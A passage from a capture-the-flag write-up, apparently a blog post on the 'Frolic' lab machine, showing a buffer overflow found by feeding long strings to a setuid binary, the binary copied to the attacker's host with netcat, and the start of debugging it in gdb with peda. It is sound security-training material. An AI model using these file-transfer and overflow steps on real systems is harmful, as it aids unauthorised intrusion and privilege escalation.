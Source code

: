 ```bash
./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# Binary is vulnerable to Buffer Overflow!!

rop $(python -c 'print "A"*40')            # --> SEGMENTATION FAULT      --> BOF
```

> **Attacker Machine:**

```bash
nc -nlvp 443 > rop
```

> **Victime Machine:**

```bash
nc 10.10.14.16 443 < rop
md5sum rop
# :)
```
> **Attacker Machine:**

```bash
md5sum rop
# :)
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

It is time to appeal to `gdb`, I am going to see if it is updated and then I also have downloaded in my machine the assistant for `gdb`, **[peda](https://github.com/longld/peda){:target="_blank"}**. I run the binary in debug mode, and check that it works correctly, I can also perform a dissassembler of the `main` function to observe the point where the call to the **setuid** function is applied and then I enter a string of 100 characters to produce the **Buffer Overflow** and crash the program. It is necessary to keep in mind the values of the registers, and particularly the **EIP** instruction pointer.

> **PEDA** - Python Exploit Development Assistance for GDB. Enhance the display of gdb: colorize and display disassembly codes, registers, memory information during debugging.

```bash
chmod +x rop
./rop

gdb --help
#    --> This is the GNU debugger.

sudo apt install gdb

gdb ./rop
  /> r AAAAA                    # run
  /> disass main                # Disassemble a specified section of memory
#        --> 0x8048380 <setuid@plt>
  /> r $(python -c 'print "A"*100')        # :(
```